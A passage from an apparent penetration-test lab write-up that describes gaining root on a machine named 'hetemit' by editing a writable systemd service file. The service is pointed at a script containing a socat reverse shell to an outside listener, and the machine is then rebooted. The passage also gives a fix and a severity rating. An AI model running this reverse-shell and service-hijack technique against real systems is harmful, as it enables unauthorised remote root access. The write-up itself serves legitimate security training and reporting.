 Specifically, we modified the `ExecStart` and `User` lines, and removed the `WorkingDirectory=` line.

Next, we'll create the reverse shell file.

```bash
[cmeeks@hetemit ~]$ cat <<'EOT'> /home/cmeeks/reverse.sh
#!/bin/bash
socat TCP:192.168.49.147:18000 EXEC:sh
EOT

[cmeeks@hetemit ~]$ chmod +x /home/cmeeks/reverse.sh
```

Let's restart our listener on port 18000, and then reboot the machine.

```bash
[cmeeks@hetemit ~]$ sudo reboot
```

When the machine boots up, we obtain a root shell.

![](attachments/Pasted%20image%2020220517192230.png)


**Vulnerability Fix:**

Restrict permission on the service definition file
 
**Severity:** High

**Proof of Concept / Code Here:**

Service : 
```bash
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/reverse.sh
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

